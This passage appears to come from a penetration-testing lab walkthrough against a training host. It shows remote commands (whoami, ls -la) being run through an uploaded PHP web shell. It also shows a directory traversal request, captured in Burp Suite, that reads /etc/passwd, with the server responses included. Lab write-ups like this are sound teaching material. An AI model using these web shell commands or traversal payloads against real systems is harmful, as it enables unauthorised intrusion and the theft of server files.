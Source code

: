 #### **Web Shell Access Testing:**
```bash
# Test uploaded web shell via browser
# URL: http://demo.ine.local/uploads/webshell.php?cmd=whoami

# Expected Response:
www-data

# Command execution confirmed!
# URL: http://demo.ine.local/uploads/webshell.php?cmd=ls -la
# Response shows directory listing with file details
```

**🔒 Exploitation Impact:**
- **Remote Code Execution:** System commands can be executed
- **File System Access:** Directory contents visible
- **Server Compromise:** Web shell provides persistent access
- **Privilege Context:** Running as www-data user

---

### **Example 4: Directory Traversal Attack Testing**

**Lab Context:** Testing file viewing functionality for directory traversal vulnerabilities.

#### **Normal File Request:**
```bash
# Step 1: Navigate to file viewer
# URL: http://demo.ine.local/view.php?file=readme.txt

# Step 2: Intercept GET request in Burp Suite
```

#### **Original Request:**
```http
GET /view.php?file=readme.txt HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0)
Accept: text/html,application/xhtml+xml
Connection: keep-alive
```

#### **Directory Traversal Testing:**
```http
# Test 1: Basic Directory Traversal
GET /view.php?file=../../../etc/passwd HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0)

# Response:
HTTP/1.1 200 OK
Content-Type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
# SUCCESS: System passwd file retrieved!
```
